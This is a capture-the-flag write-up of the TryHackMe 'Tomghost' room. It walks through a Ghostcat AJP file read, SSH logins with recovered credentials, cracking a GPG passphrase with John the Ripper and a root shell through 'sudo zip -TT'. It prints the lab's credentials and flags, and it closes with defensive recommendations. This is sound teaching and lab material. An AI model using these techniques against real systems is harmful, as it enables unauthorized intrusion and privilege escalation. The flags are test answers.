

# Tomghost Write-up

## Tomghost Write-up

### Challenge information

* **Platform:** TryHackMe
* **Room:** [Tomghost](https://tryhackme.com/room/tomghost)
* **Target:** `10.112.168.75`
* **Scope:** Authorized TryHackMe lab environment

### Overview

This lab began with Apache Tomcat research and the Ghostcat AJP vulnerability. Ghostcat exposed `WEB-INF/web.xml`, which contained SSH credentials for `skyfuck`.

The `skyfuck` account exposed an encrypted credential archive and a private OpenPGP key. Cracking the key passphrase allowed the archive to be decrypted, revealing credentials for `merlin`. The final escalation came from passwordless `sudo` access to `zip`, which produced a root shell through its test-command option.

### Table of contents

* [Tomcat and Ghostcat research](tomghost-write-up.md#tomcat-and-ghostcat-research)
* [Network reconnaissance](tomghost-write-up.md#network-reconnaissance)
* [Ghostcat file disclosure](tomghost-write-up.md#ghostcat-file-disclosure)
* [SSH access as skyfuck](tomghost-write-up.md#ssh-access-as-skyfuck)
* [GPG credential recovery](tomghost-write-up.md#gpg-credential-recovery)
* [SSH access as merlin](tomghost-write-up.md#ssh-access-as-merlin)
* [ZIP privilege escalation](tomghost-write-up.md#zip-privilege-escalation)
* [Flags](tomghost-write-up.md#flags)
* [Attack chain](tomghost-write-up.md#attack-chain)
* [Vulnerability analysis](tomghost-write-up.md#vulnerability-analysis)
* [Defensive recommendations](tomghost-write-up.md#defensive-recommendations)
* [Evidence integrity](tomghost-write-up.md#evidence-integrity)

### Tools used

* Searchsploit
* Nmap
* Metasploit Framework
* SSH and SCP
* John the Ripper
* `gpg2john`
* GnuPG
* Linux command-line utilities

### Tomcat and Ghostcat research

The recorded investigation began by searching Exploit-DB locally for Tomcat-related entries:

```bash
searchsploit 'Tomcat'
searchsploit 'ghostcat'
```

The Ghostcat search returned two relevant entries:

```
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion              | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit) | multiple/webapps/49039.rb
```

Ghostcat is tracked as CVE-2020-1938. It affects exposed Apache JServ Protocol (AJP) connectors in vulnerable Tomcat configurations. The available Metasploit module described file read within the web application and, under additional conditions, JSP processing.

The lab used the file-read capability. No JSP upload or code execution through Ghostcat was recorded.

### Network reconnaissance

A detailed TCP scan was recorded after the initial Ghostcat module research:

```bash
nmap -O -vv --top-ports 1000 -sS 10.112.168.75 -open
```

Relevant output:

```
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 62
53/tcp   open  domain     syn-ack ttl 62
8009/tcp open  ajp13      syn-ack ttl 62
8080/tcp open  http-proxy syn-ack ttl 62
```

TCP/8009 exposed AJP13. This supported the Ghostcat hypothesis because the module targets Tomcat's AJP connector. SSH on TCP/22 became useful after credentials were recovered.

Nmap did not provide an exact operating-system match. It did identify a Linux-like TCP fingerprint and a three-hop network distance. Those results are indicators, not proof of a specific operating-system build.

### Ghostcat file disclosure

The Metasploit auxiliary module was selected and configured with the lab target:

```
use auxiliary/admin/http/tomcat_ghostcat
set RHOSTS 10.112.168.75
exploit
```

The module used its default requested path, `/WEB-INF/web.xml`. It returned application configuration content and saved it locally as Metasploit loot.

Relevant recovered content:

```xml
<description>
   Welcome to GhostCat
      skyfuck:8730281lkjlkjdqlksalks
</description>
```

This is direct evidence that the AJP service disclosed the Tomcat application's `web.xml`. The credential-like value was then used only within the authorized lab to authenticate over SSH.

### SSH access as skyfuck

The recovered credential authenticated the `skyfuck` account:

```bash
ssh skyfuck@10.112.168.75
```

The session identified Ubuntu 16.04.6 LTS. The account home directory contained two notable files:

```
credential.pgp
tryhackme.asc
```

The host also exposed a user flag in Merlin's home directory. It was readable from the `skyfuck` session:

```bash
cat /home/merlin/user.txt
```

The observed result is recorded in [Flags](tomghost-write-up.md#flags).

### GPG credential recovery

The two OpenPGP files were copied from the lab host to the local machine:

```bash
scp skyfuck@10.112.168.75:/home/skyfuck/credential.pgp .
scp skyfuck@10.112.168.75:/home/skyfuck/tryhackme.asc .
```

`tryhackme.asc` contained a protected OpenPGP secret key. `gpg2john` converted the key material into a John the Ripper hash format:

```bash
gpg2john tryhackme.asc > tryhackme.hash
john --wordlist=/usr/share/wordlists/rockyou.txt tryhackme.hash
```

John recovered the key passphrase:

```
alexandru        (tryhackme)
```

`alexandru` is the passphrase for the exported GPG private key. It is not the `merlin` account password.

The key was then imported and used to decrypt the credential archive:

```bash
gpg --import tryhackme.asc
gpg --output credentials.txt --decrypt credential.pgp
cat credentials.txt
```

Observed decrypted content:

```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

The OpenPGP import identified the key as `tryhackme <stuxnet@tryhackme.com>`. GnuPG reported that `credential.pgp` was encrypted with an `elg1024` key and issued a recipient-preference warning for CAST5. The archive still decrypted successfully in this lab session.

### SSH access as merlin

The decrypted credential authenticated Merlin's SSH account:

```bash
ssh merlin@10.112.168.75
whoami
id
sudo -l
```

Observed identity:

```
merlin
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

The critical `sudo` finding was:

```
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

`NOPASSWD` allowed Merlin to run `/usr/bin/zip` as root without re-entering a password. The escalation path therefore depended on the behavior of `zip` when its test-command option was supplied.

### ZIP privilege escalation

An initial attempt to write an archive below a restricted temporary directory failed with a permission error. The same technique succeeded when run through the permitted `sudo zip` command:

```bash
sudo zip /tmp/hsperfdata_tomcat/ /etc/hosts -T -TT '/bin/sh #'
```

Observed result:

```
adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

`-T` instructs `zip` to test the archive. `-TT` supplies the command used for that test. In this authorized lab, the supplied shell command ran under the root context granted by `sudo`. The trailing `#` comments out arguments appended by `zip`.

The root session confirmed the flag location and value:

```bash
cd /root
cat root.txt
```

### Flags

#### User flag

The user flag was read from `/home/merlin/user.txt` during the `skyfuck` SSH session:

```
THM{GhostCat_1s_so_cr4sy}
```

#### Root flag

The root flag was read from `/root/root.txt` after root access was verified:

```
THM{Z1P_1S_FAKE}
```

### Attack chain



### Vulnerability analysis

The observed attack chain combines several independent weaknesses:

1. **Exposed AJP connector:** TCP/8009 accepted connections from the lab attacker. The Ghostcat module read `WEB-INF/web.xml` from the web application.
2. **Credential disclosure:** The disclosed configuration included an SSH username and password. Application configuration should not contain reusable operating-system credentials.
3. **Weak key passphrase:** The OpenPGP key passphrase appeared in `rockyou.txt`, allowing offline recovery with John the Ripper.
4. **Credential archive exposure:** The `skyfuck` account could access both the encrypted credential archive and its private key material.
5. **Unsafe sudo rule:** Merlin could execute `zip` as root without a password. `zip` provides functionality capable of invoking a command, which made this rule equivalent to root command execution.

These findings reflect the intentionally vulnerable TryHackMe machine. They do not establish that every Tomcat, GPG key, or `zip` deployment is vulnerable.

### Defensive recommendations

* Disable AJP when it is not required. Otherwise, bind it to a trusted interface and restrict access with network controls.
* Upgrade Tomcat and apply the AJP hardening changes for CVE-2020-1938.
* Never store reusable SSH credentials in application files or deployment descriptors.
* Use strong, unique passphrases for private keys. Protect private-key material and encrypted archives with least-privilege permissions.
* Treat encrypted credentials and their decryption keys as separate sensitive assets.
* Avoid broad `NOPASSWD` rules. Do not allow programs with command-execution features through `sudo`.
* Use purpose-built root-owned scripts with fixed arguments when elevated maintenance is necessary.
* Audit reachable management ports, sensitive files, and `sudo` policy regularly.

### Evidence integrity

* Commands, values, and output excerpts are based on the supplied authorized lab session.
* The target address is a temporary TryHackMe lab value.
* The recorded order began with exploit research. The detailed Nmap output was captured afterward.
* The write-up does not claim Ghostcat remote code execution. The observed result was file disclosure.
* The listed credentials and flags belong to this completed CTF environment only.

### Final summary

Tomghost demonstrated how an exposed AJP connector can become an entry point when vulnerable Tomcat behavior exposes application files. The disclosed `web.xml` contained SSH credentials for `skyfuck`.

OpenPGP key recovery and archive decryption exposed Merlin's credentials. Merlin's passwordless `sudo` permission for `zip` then allowed a root shell through its test-command behavior. The completed chain ended with verified root access and retrieval of both flags.
